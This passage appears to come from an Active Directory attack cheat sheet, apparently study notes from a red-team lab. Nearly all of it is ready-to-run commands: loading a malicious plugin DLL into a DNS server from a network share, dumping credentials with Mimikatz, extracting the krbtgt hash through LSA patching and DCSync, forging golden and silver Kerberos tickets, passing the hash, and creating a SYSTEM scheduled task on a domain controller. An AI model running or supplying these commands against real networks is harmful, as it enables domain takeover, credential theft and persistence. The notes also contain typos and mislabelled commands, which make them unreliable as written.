 > > >
> > > > ***Configure DLL using DNSServer (needs RSAT DNS)***
> > > >
> > > > > ```powershell
> > > > > $dnsettings = Get-DnsServerSettings -ComputerName <DNSServerNAme> -Verbose -All
> > > > > 
> > > > > $dnsettings.ServerLevelPluginDll = "\\<IP>\dll\mimilib.dll"
> > > > > 
> > > > > Set-DnsSetting -InputObject $dnsettings -ComputerName <DNSServerComputerName> -Verbose 
> > > > > ```
> >
> > > > **Restart Service**
> > > >
> > > > > ```powershell
> > > > > smd 
> > > > > sc \\DNS-Server-NAme stop dns 
> > > > > sc \\DNS-Server-NAme start dns 
> > > > > 
> > > > > ```

***Privs Escalation*** -- Across Trust 

> 

***Persistence*** <u>Mimikatz at rescue:</u>

> :one: ***Dumb Creds*** 
>
> > :one::a:`Invoke-Mimikatz -DumpCreds `

> :two: ***KRBTGT***
>
> > Get ***krbtgt*** from DC as Domain admin  
> >
> > :two::b: `Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc`

> :three: ***DCSync*** attack to extract ***krbtgt*** using Domain Admin privs
>
> > :three: :a: `Invoke-Command -Command '"lsadump::dcsync /user:<DOMAINNAME>\krbtgt"' `

> :four: ***Golden Ticket*** -- krbtgt NTLM is key of encryption (TGS)
>
> > Fork a ticket from any machine `Invoke-Mimkatz -Command '"kerberos::golden /User:Administrator /domain:<DOMAINNAMEFQDN> /sid:<Domain SID> /krbtgt:<RC4 NTLM HASH>  /ptt"'`
> >
> > ***Clone Someone Ticket***  
> >
> > > :four::a: `Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:<domainName> /ntlm:<hash> /run:powershell.exe"'`

> :five: ***Sliver Tickets*** -- Service account NTLM value is key of encryption (TGS)

> > Dump Services RC4 {RID:1000, User:DCORP-DC$} 
> >
> > :five::a:`Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc`
> >
> > :five::b: `Invoke-Mimkatz -Command '"kerberos::golden /domain:<DOMAINNAMEFQDN> /sid:<Domain SID> /target:<server FQDN> /service:<ServiceName> /rc4:<RC4 NTLM HASH>  /User:Administrator  /ptt"'`
> >
> > :information_source: `Host -> to start schdule ` , `cifs -> explorer file system`
> >
> > ***Use Sliver Ticket to run task*** 
> >
> > >  ```
> > > schtasks /create /S <DomainNAme> /SC Weekly /RU "NT Authority\SYSTEM" /TN "<TaskNAme>" /TR "<Task action>"
> > >  ```
> > >